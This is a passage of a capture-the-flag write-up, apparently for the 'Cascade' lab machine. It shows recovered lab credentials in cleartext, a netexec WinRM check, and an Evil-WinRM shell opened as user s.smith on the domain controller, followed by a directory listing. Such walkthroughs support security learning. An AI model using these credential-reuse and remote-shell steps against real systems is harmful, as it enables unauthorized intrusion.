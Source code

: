 ![Untitled](Cascade%20eb79c61327ed40c3971b238e89a67616/Untitled%202.png)

I checked the password for SMB service and it is valid and working →

![Untitled](Cascade%20eb79c61327ed40c3971b238e89a67616/Untitled%203.png)

I got these credentials :

```bash
r.thompson : rY4n5eva
s.smith : sT333ve2
```
{: .nolineno}

Lets check of winrm access →

### WinRM Session ⤵️

```bash
┌──(kali㉿kali)-[~/…/Data/IT/Temp/s.smith]
└─$ netexec winrm 10.10.10.182 -u s.smith -p 'sT333ve2'         
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
                                                                                                                                                  
┌──(kali㉿kali)-[~/…/Data/IT/Temp/s.smith]
└─$ evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'                                                                                   
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
*Evil-WinRM* PS C:\Users\s.smith\Documents> hostname
CASC-DC1
*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ..
*Evil-WinRM* PS C:\Users\s.smith> tree /f /a
Folder PATH listing
Volume serial number is CF98-2F06
C:.
+---Desktop
|       user.txt
|       WinDirStat.lnk
|
```
